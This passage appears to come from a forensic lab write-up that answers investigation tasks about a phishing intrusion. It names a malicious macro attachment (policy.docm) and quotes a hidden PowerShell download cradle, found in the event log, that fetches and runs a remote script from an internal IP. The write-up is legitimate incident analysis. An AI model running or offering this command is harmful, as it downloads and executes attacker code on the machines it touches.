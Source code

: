 ```
```

>Task 19: What is the full path for the malicious attachment?

![4ca636dfb4fc1a574184f881f871b2da.png](../../../_resources/4ca636dfb4fc1a574184f881f871b2da-1.png)
```
C:\Users\ceo-us\Downloads\policy.docm
```

>Task 20: Can you provide the command used to gain initial access?

![d53f8b2efb9f0f621b891b8087c7bd37.png](../../../_resources/d53f8b2efb9f0f621b891b8087c7bd37-1.png)
I found this command on PowerShell event log which later will be answered what kind of threat is this file
```
powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.1.5:806/a'))
```
